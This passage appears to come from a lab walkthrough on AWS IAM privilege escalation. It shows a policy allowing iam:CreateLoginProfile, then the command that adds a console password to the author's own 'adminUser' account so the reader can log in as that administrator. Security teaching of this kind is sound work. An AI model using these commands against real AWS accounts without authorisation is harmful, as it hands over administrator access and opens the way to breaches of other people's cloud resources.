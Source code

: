 ```
❯ aws iam get-policy-version --policy-arn arn:aws:iam::9[REDACTED]2:policy/privesc5-CreateLoginProfile --version-id v1
{
    "PolicyVersion": {
        "Document": {
            "Statement": [
                {
                    "Action": "iam:CreateLoginProfile",
                    "Effect": "Allow",
                    "Resource": "*"
                }
            ],
            "Version": "2012-10-17"
        },
        "VersionId": "v1",
        "IsDefaultVersion": true,
        "CreateDate": "2024-01-21T19:26:54+00:00"
    }
}
```

We can create login profile of a high privilege user which does not have Console login enabled. For this task, I created `adminUser` without console login. So we can create a console login profile of `adminUser`.  

```
❯ aws iam create-login-profile --user-name adminUser --password Password@1337! --no-password-reset-required --profile privesc5
{
    "LoginProfile": {
        "UserName": "adminUser",
        "CreateDate": "2024-02-16T07:34:05+00:00",
        "PasswordResetRequired": false
    }
}
```
Now, use the password you just set in the above step to login to the AWS Console.
